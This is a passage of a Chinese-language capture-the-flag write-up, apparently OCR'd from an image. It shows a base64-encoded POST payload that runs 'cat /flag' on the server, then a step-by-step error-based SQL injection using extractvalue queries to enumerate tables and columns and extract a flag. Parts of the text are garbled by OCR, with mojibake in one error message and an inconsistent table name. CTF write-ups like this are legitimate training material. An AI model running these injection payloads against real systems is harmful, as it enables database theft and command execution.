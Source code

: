 反转--> nFGbm9CI0F2Y

```python
import hashlib
def md5_encode(data):
    md5_hash = hashlib.md5()
    md5_hash.update(data.encode('utf-8'))
    md5_digest = md5_hash.hexdigest()
    return md5_digest

data = "nFGbm9CI0F2Y"
md5_encoded = md5_encode(data)

print(f"原始数据: {data}")
print(f"MD5 编码: {md5_encoded}")
```

然后base64编码

```
cmd=Y2F0IC9mbGFn&key=ODc5YTU5MWM2Nzg1YTRlMTM5OGI5NmE5YTFiYzY3ZWI=
```

post传参得到flag



### 谢谢皮蛋

上去一个输入框，试了一下，是sql注入，这里使用报错注入

```python
extractvalue(1,concat(0x7e,database()))
#XPATH syntax error: '~ctf'

extractvalue(1,concat(0x7e，(select(group_concat(table_name))from(information_schema.tables)where(table_schema= "ctf"))))
#You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'ki?oj[???'q?tǷ?zW?? 躗(?ƭ???zv?y???)ߢ???*'??^??ZnW???z֛?????r? LIMIT 0,1' at line 1

extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema like "ctf"))))
#XPATH syntax error: '~Fl4g,hexo'

extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name like "Fl4g"))))
#XPATH syntax error: '~id,des,value'

extractvalue(1,concat(0x7e,(select(group_concat(value))from(F149))))
#XPATH syntax error: '~flag{be7d6da3-5b52-455e-84eb...'

extractvalue(1,concat(0x7e,(select(right(group_concat(value),30))from(Fl4g))))
#XPATH syntax error: '~3-5b52-455e-84eb-78d9e58f254b}'
```
